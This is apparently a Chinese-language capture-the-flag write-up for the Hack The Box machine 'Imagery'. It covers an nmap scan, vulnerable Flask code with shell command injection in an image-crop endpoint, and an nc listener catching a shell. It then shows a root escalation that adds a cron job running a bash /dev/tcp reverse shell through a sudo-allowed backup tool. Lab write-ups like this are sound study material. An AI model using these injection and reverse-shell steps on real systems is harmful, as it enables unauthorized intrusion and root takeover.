

┌──(kali㉿kali)-[~/HTB] └─$ sudo nmap -p- --min-rate 10000 10.10.11.88 -oA ports [sudo] password for kali: Starting Nmap 7.95 ( https://nmap.org ) Nmap scan report for 10.10.11.88 Host is up (0.20s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 8000/tcp open http-alt
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
from flask import Flask, render_template import os import sys from datetime import datetime from config import * from utils import _load_data, _save_data from utils import * from api_auth import bp_auth from api_upload import bp_upload from api_manage import bp_manage from api_edit import bp_edit from api_admin import bp_admin from api_misc import bp_misc
if __name__ == '__main__': current_database_data = _load_data() default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed'] existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])} for collection_to_add in default_collections: if collection_to_add notin existing_collection_names_in_database: current_database_data.setdefault('image_collections', []).append({'name': collection_to_add}) _save_data(current_database_data) for user_entry in current_database_data.get('users', []): user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log") ifnot os.path.exists(user_log_file_path): withopen(user_log_file_path, 'w') as f: f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n") port = int(os.environ.get("PORT", 8000)) if port in BLOCKED_APP_PORTS: print(f"Port {port} is blocked for security reasons. Please choose another port.") sys.exit(1) app_core.run(debug=False, host='0.0.0.0', port=port)
@bp_edit.route('/apply_visual_transform', methods=['POST']) defapply_visual_transform(): ifnot session.get('is_testuser_account'): return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403 if'username'notin session: return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401 request_payload = request.get_json() image_id = request_payload.get('imageId') transform_type = request_payload.get('transformType') params = request_payload.get('params', {}) ifnot image_id ornot transform_type: return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400 application_data = _load_data() original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None) ifnot original_image: return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404 original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename']) ifnot os.path.exists(original_filepath): return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404 if original_image.get('actual_mimetype') notin ALLOWED_TRANSFORM_MIME_TYPES: return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400 original_ext = original_image['filename'].rsplit('.', 1)[1].lower() if original_ext notin ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM: return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400 try: unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}" output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename) output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db) if transform_type == 'crop': x = str(params.get('x')) y = str(params.get('y')) width = str(params.get('width')) height = str(params.get('height')) command = f"{IMAGEMAGICK_CONVERT_PATH}{original_filepath} -crop {width}x{height}+{x}+{y}{output_filepath}" subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
可以看到在 transform 操作里的 corp 选项可以用 subprocess 执行系统命令，而且执行的内容是获取 post 数据之后直接加上去的。
因此，我们或许可以控制 post 数据里的 x 的内容，从而尝试命令注入。
获取立足点
用 burp 拦截后发送反弹 shell 的数据：

接着在本地收到了反弹回来的 shell：
1 2 3 4 5 6 7 8 9 10
┌──(kali㉿kali)-[~/HTB/imagery] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.10.11.88 55020 bash: cannot set terminal process group (1353): Inappropriate ioctl for device bash: no job control in this shell web@Imagery:~/web$ whoami whoami web web@Imagery:~/web$
提权
提升到 mark
我们现在是 web 这个用户，但是这个用户没有 user flag，还有一个用户叫 mark ，我们得想办法移动到 mark 这个用户的权限。
mark@Imagery:~$ sudo -l sudo -l Matching Defaults entries for mark on Imagery: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User mark may run the following commands on Imagery: (ALL) NOPASSWD: /usr/local/bin/charcol mark@Imagery:~$
无法拿到本地查看程序内容，那就通过它的 help 分析这个程序，发现这是个备份文件的程序，但是需要一个密码才能使用：
1 2 3 4 5 6 7
mark@Imagery:~$ sudo /usr/local/bin/charcol shell sudo /usr/local/bin/charcol shell Enter your Charcol master passphrase (used to decrypt stored app password): supersmash
[2026-01-01 08:21:59] [ERROR] Incorrect master passphrase. 2 retries left. (Error Code: CPD-002) Enter your Charcol master passphrase (used to decrypt stored app password):
但是在它的 help 里面说了，可以使用 -R 选项来重置密码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18
mark@Imagery:~$ sudo /usr/local/bin/charcol help sudo /usr/local/bin/charcol help usage: charcol.py [--quiet] [-R] {shell,help} ...
Charcol: A CLI tool to create encrypted backup zip files.
positional arguments: {shell,help} Available commands shell Enter an interactive Charcol shell. help Show help message for Charcol or a specific command.
options: --quiet Suppress all informational output, showing only warnings and errors. -R, --reset-password-to-default Reset application password to default (requires system password verification). mark@Imagery:~$
[2026-01-01 08:25:12] [INFO] Entering Charcol interactive shell. Type 'help'for commands, 'exit' to quit. charcol>
可以在命令行环境里使用 help 来查看帮助。
在 help 里面，看到了这样的内容：
1 2 3 4 5 6 7 8 9 10 11 12
Automated Jobs (Cron): auto add --schedule "<cron_schedule>" --command"<shell_command>" --name "<job_name>" [--log-output <log_file>] Purpose: Add a new automated cron job managed by Charcol. Verification: - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag). - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell). Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths. Examples: - Status 1 (encrypted app password), cron: CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \ --schedule "0 2 * * *" --command"charcol backup -i /home/user/docs -p <file_password>" \ --name "Daily Docs Backup" --log-output <log_file_path>
charcol> auto add --schedule "* * * * *" --name shell --command"bash -c 'bash -i >&/dev/tcp/10.10.XX.XX/4567 0>&1'" <bash -c 'bash -i >&/dev/tcp/10.10.XX.XX/4567 0>&1'" [2026-01-01 08:29:39] [INFO] System password verification required for this operation. Enter system password for user 'mark' to confirm: supersmash [2026-01-01 08:29:43] [INFO] System password verified successfully. [2026-01-01 08:29:43] [INFO] Auto job 'shell' (ID: 5615aa3a-414b-4f51-8e74-309757f4ae36) added successfully. The job will run according to schedule. [2026-01-01 08:29:43] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true bash -c 'bash -i >&/dev/tcp/10.10.XX.XX/4567 0>&1' charcol>
上面的 --schedule "* * * * * *" 表示每分钟执行一次这个任务。
接着在本地就接受到了 root 弹回来的 shell：
1 2 3 4 5 6 7 8 9 10
┌──(kali㉿kali)-[~] └─$ nc -nvlp 4567 Listening on 0.0.0.0 4567 Connection received on 10.10.11.88 58874 bash: cannot set terminal process group (67421): Inappropriate ioctl for device bash: no job control in this shell root@Imagery:~# whoami whoami root root@Imagery:~#